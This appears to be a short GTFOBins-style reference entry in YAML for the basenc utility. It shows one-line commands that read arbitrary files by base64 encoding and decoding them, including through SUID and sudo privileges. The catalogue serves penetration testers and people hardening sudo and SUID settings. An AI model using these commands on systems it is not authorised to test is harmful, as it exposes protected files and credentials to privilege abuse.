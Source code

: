 functions:
  file-read:
    - code: |
        LFILE=file_to_read
        basenc --base64 $LFILE | basenc -d --base64
  suid:
    - code: |
        LFILE=file_to_read
        basenc --base64 $LFILE | basenc -d --base64
  sudo:
    - code: |
        LFILE=file_to_read
        sudo basenc --base64 $LFILE | basenc -d --base64
---
